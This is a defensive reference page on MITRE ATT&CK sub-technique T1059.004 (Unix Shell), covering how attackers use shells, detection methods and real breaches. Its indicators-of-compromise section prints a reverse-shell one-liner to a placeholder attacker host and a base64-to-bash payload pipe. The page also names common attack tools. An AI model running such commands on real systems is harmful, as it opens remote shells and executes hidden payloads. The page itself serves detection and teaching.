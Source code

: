 ```yaml
---
description: Unix Shell [T1059.004]
icon: lock
---
```


# Unix Shell

## Information

- Name: Unix Shell
- ID: T1059.004
- Tactics: [TA0002](../TA0002/TA0002.md)
- Technique: [T1059](T1059.md)

## Introduction

Unix Shell ([T1059.004](techniques/T1059.004.md)) is a sub-technique under the MITRE ATT\&CK framework's Execution tactic, specifically categorized under Command and Scripting Interpreter (T1059). Attackers leverage Unix shells, such as Bash, Zsh, or Sh, to execute malicious code, run scripts, automate tasks, and interact directly with compromised systems. This sub-technique encompasses the use of shell commands and scripts executed directly through the Unix/Linux command-line interface or via scripts, providing attackers with flexible and powerful tools to achieve their objectives.

## Deep Dive Into Technique

Attackers commonly exploit Unix shells due to their ubiquity, flexibility, and powerful scripting capabilities. Unix shells provide access to system resources, file systems, network communications, and user privileges, making them ideal for attackers to carry out malicious activities.

Technical details and execution methods include:

- **Interactive Shell Sessions:**
  - Directly running commands or scripts through interactive shell sessions (e.g., Bash, Sh, Zsh).
  - Attackers may establish interactive shells remotely through SSH, Telnet, or reverse shells initiated via netcat, Python, Perl, or other scripting languages.
- **Script Execution:**
  - Using shell scripts (.sh files) to automate malicious actions, such as privilege escalation, reconnaissance, lateral movement, and persistence.
  - Scripts can be executed manually, via cron jobs, or through exploitation of vulnerable services and applications.
- **Shell Built-ins and Utilities:**
  - Utilizing standard Unix utilities such as `curl`, `wget`, `scp`, `ssh`, `nc`, `sed`, `awk`, and others to facilitate data exfiltration, payload downloads, persistence, or lateral movement.
  - Employing built-in shell commands (`echo`, `printf`, `exec`, `eval`) to execute encoded or obfuscated payloads.
- **Chained Commands and Obfuscation:**
  - Attackers often chain commands using pipes (`|`), semicolons (`;`), logical operators (`&&`, `||`), and redirections (`>`, `<`) to execute multiple actions in a single line or script.
  - Obfuscation techniques, such as base64 encoding, hexadecimal encoding, or character substitution, are frequently used to evade detection.
- **Privilege Elevation Attempts:**
  - Attackers may exploit misconfigured SUID binaries, sudo privileges, or kernel vulnerabilities through shell commands and scripts to escalate privileges from standard user accounts to root.

## When this Technique is Usually Used

Attackers leverage Unix shell sub-techniques across multiple stages of the attack lifecycle, including:

- **Initial Access and Exploitation:**
  - Exploiting vulnerabilities in web applications, SSH services, or remote code execution flaws to establish initial shell access.
- **Execution and Persistence:**
  - Executing malicious scripts or commands to establish persistent backdoors, cron jobs, or scheduled tasks.
  - Using shell scripts to maintain persistence by automating reconnection attempts or creating hidden processes.
- **Privilege Escalation:**
  - Exploiting misconfigured permissions, vulnerable binaries, or kernel exploits via shell commands to elevate privileges.
- **Defense Evasion:**
  - Using shell commands to disable logging, modify audit trails, clear log files, or obfuscate malicious activities.
- **Credential Access and Lateral Movement:**
  - Extracting credentials from configuration files, environment variables, or memory.
  - Using SSH, SCP, or other shell-based utilities to move laterally within the network.
- **Collection and Exfiltration:**
  - Employing shell commands and utilities (`tar`, `gzip`, `scp`, `curl`, `wget`) to compress and send sensitive data to attacker-controlled infrastructure.

## How this Technique is Usually Detected

Detection of Unix shell sub-techniques involves monitoring and analyzing various system and network indicators, including:

- **Process Monitoring and Auditing:**
  - Monitoring process execution logs (`auditd`, `syslog`, `auth.log`, `bash_history`) to detect suspicious or unusual command executions.
  - Implementing Linux audit frameworks (Auditd rules) to track execution of sensitive commands and binaries.
- **Command-Line Logging and Analysis:**
  - Capturing and analyzing command-line arguments and parameters for suspicious patterns, obfuscated commands, encoded payloads, or unusual command chaining.
  - Using Extended Bash History logging (with timestamps and user IDs) to correlate suspicious activities.
- **File System Monitoring:**
  - Monitoring for creation or modification of suspicious shell scripts (`.sh` files) in unusual directories (`/tmp`, `/dev/shm`, `/var/tmp`, user home directories).
  - Detecting unexpected changes in system binaries or scripts.
- **Network Traffic Analysis:**
  - Identifying unusual outbound network connections initiated by shell utilities (`curl`, `wget`, `nc`, `scp`, `rsync`) to external IP addresses or domains.
  - Analyzing DNS logs for suspicious domain lookups triggered by shell commands.
- **User Behavior Analytics:**
  - Leveraging behavioral analytics tools to detect deviations from normal user command-line patterns and workflows.

Specific Indicators of Compromise (IoCs):

- Suspicious shell commands (e.g., reverse shells):

  ```
  bash -i >& /dev/tcp/attacker_ip/port 0>&1
  ```

- Encoded payloads executed via shell commands:

  ```
  echo "payload" | base64 -d | bash
  ```

- Unusual cron job entries or scheduled tasks executing shell scripts:

  ```
  */5 * * * * /tmp/malicious.sh
  ```

- Presence of suspicious shell scripts in temporary directories:

  ```
  /tmp/.hidden_script.sh
  ```

## Why it is Important to Detect This Technique

Detecting Unix shell sub-techniques early is critical due to their significant impacts on system security, operational stability, and data integrity. Importance includes:

- **Preventing Privilege Escalation:**
  - Early detection of shell-based privilege escalation attempts prevents attackers from gaining administrative or root-level access, limiting potential damage.
- **Reducing Dwell Time:**
  - Quickly identifying shell-based malicious activities significantly reduces attacker dwell time, limiting the opportunity to move laterally or exfiltrate sensitive data.
- **Protecting Sensitive Data:**
  - Detection prevents attackers from successfully exfiltrating sensitive information, intellectual property, or credentials from compromised systems.
- **Maintaining System Integrity and Availability:**
  - Early identification and remediation of shell-based attacks minimize the risk of attackers disrupting critical system operations, modifying system binaries, or causing denial-of-service conditions.
- **Improving Incident Response Efficiency:**
  - Clear detection of shell-based malicious activities provides incident responders with actionable intelligence, allowing rapid containment, remediation, and recovery.

## Examples

Real-world examples of Unix shell sub-techniques include:

- **Equifax Data Breach (2017):**
  - Attackers exploited Apache Struts vulnerability (CVE-2017-5638), gaining initial shell access to Equifax servers.
  - Utilized Unix shell commands to establish persistence, escalate privileges, and exfiltrate sensitive personal data of millions of users.
- **Shellshock Vulnerability (CVE-2014-6271):**
  - Attackers exploited the Bash Shellshock vulnerability to execute arbitrary shell commands remotely on vulnerable Unix/Linux systems.
  - Shell commands were used to deploy reverse shells, install malware, and establish persistent access.
- **Operation Windigo (2014):**
  - Attackers leveraged Unix shell scripts and commands extensively to compromise thousands of Linux servers.
  - Shell scripts automated malware deployment, credential harvesting, and spam distribution activities.
- **Crypto-Mining Campaigns:**
  - Attackers frequently leverage Unix shell scripts to download and execute cryptocurrency mining malware on compromised Linux servers.
  - Shell commands automate malware deployment, persistence, and resource usage monitoring.

Common tools used by attackers in Unix shell attacks:

- Reverse shells: `netcat`, `bash`, `python`, `perl`
- Data exfiltration utilities: `scp`, `curl`, `wget`, `rsync`
- Privilege escalation scripts and tools: `LinEnum.sh`, `LinPEAS.sh`, `GTFOBins`
- Automated exploitation frameworks: `Metasploit`, `Empire`, `Cobalt Strike`

Impacts observed in these examples:

- Massive data breaches and sensitive information exposure.
- System compromise, unauthorized access, and persistent footholds.
- Financial loss due to crypto-mining resource abuse.
- Significant reputational damage and regulatory penalties.
